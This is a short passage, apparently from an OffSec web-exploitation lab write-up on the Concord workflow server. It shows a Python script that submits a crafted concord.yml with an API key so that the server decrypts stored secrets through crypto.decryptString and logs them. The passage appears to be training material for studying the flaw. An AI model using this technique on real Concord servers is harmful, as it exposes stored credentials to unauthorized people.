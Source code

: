 



Once project, org is present and rawpayloadmode is enabled, then following will work.
                  
┌──(kali㉿kali)-[~/web-300/concord]
└─$ cat test.py  
import requests

def decrypt_content(target, port, api_key):
    # http://concord:8001/api/v1/process
    yaml_payload = """
flows:
  default:
  - log: "Hello, ${name}"

configuration:
  arguments:
    name: ${crypto.decryptString("vyblrnt+hP8GNVOfSl9WXgGcQZceBhOmcyhQ0alyX6Rs5ozQbEvChU9K7FWSe7cf")}"""
    # ${{crypto.decryptString('vyblrnt+hP8GNVOfSl9WXgGcQZceBhOmcyhQ0alyX6Rs5ozQbEvChU9K7FWSe7cf')}}
    # ${crypto.decryptString("4d1+ruCra6CLBboT7Wx5mw==")}

    r = requests.post(f"http://{target}:{port}/api/v1/process",
                      headers={"Authorization": api_key},
                      #data={"project": "AWAE", "org": "OffSec"},
                      files={'concord.yml': ("blob", yaml_payload, "application/yml")},
                      proxies={"http": "http://127.0.0.1:8080"})
    print(r.json())

decrypt_content("concord", 8001, "Gz0q/DeGlH8Zs7QJMj1v8g")
                                                                                                                       
